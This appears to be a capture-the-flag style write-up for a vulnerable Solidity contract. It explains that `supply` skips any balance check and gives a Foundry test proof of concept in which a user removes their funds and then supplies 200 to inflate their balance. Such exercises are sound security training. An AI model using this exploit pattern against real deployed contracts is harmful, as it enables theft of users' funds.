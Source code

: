 # Analysis
The function `supply` allows arbitrary `_amount`, there is no validation of sender's balance. So we can simply `remove` our balance and `supply(_, 200)`

# POC
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/Test.sol";
import "src/TemporaryVariable.sol";


contract testfactory is
    Test,
    factory
{    
    factory _factory;
    address user1 = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
    address user2 = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;
    function setUp() public {
         vm.prank(owner);
        _factory = new factory();

        vm.deal (user1 , 100);
        vm.deal (user2 , 100);

        vm.prank(user1);
        _factory.supply(user1, 100);
        vm.prank(user2);
        _factory.supply(user2, 100);
    }

    function testFactory() public {
        vm.prank(user1);

          //solution
		_factory.remove(user1, 100);
        vm.prank(user1);
		_factory.supply(user1, 200);


        uint256 newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 200);
    }
}


```

